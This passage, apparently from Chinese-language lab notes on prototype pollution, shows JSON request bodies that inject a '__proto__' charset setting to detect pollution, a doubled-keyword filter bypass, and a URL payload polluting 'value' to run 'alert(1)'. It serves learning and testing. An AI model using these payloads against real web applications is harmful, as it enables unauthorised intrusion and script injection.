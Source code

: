 在`role`字段使用UTF-7编码的值,默认情况下服务端使用的字符集是UTF-8,`+AGYAbwBv-`会直接显示在响应中.
```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"+AGYAbwBv-"
}
```
注入字符集设置
```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"default",
    "__proto__":{
        "content-type": "application/json; charset=utf-7"
    }
}
```
此时再次发送第一个请求包,如果被成功污染,那么响应中的role则会是`foo`. 
## Bypass
### 双写
对于这种对关键字替换为空的过滤,直接双写即可绕过.  
![](2023-04-12-16-53-46.png)   
`?__pro__proto__to__[foo]=bar`
### defineProperty时Value未赋值
![](2023-04-12-17-29-52.png)  
对于config对象设置了属性,但是defineProperty时只设置了是否可修改和可删除编辑,并没有设置其value.  
```
语法：Object.defineProperty(obj,property,descriptor)

obj:绑定属性的目标对象 property:绑定的属性名 descriptor:属性描述（配置）,且此参数本身为一个对象
属性值1：value
设置属性默认值
属性值2：writable
设置属性是否能够修改
属性值3：enumerable
设置属性是否可以枚举,即是否允许遍历
属性值4：configurable
设置属性是否可以删除或编辑
属性值5：get
获取属性的值
属性值6：set
设置属性的值
```  
导致可以通过污染原型的value属性进行利用.  
`/?__proto__[value]=data%3A%2Calert%281%29`
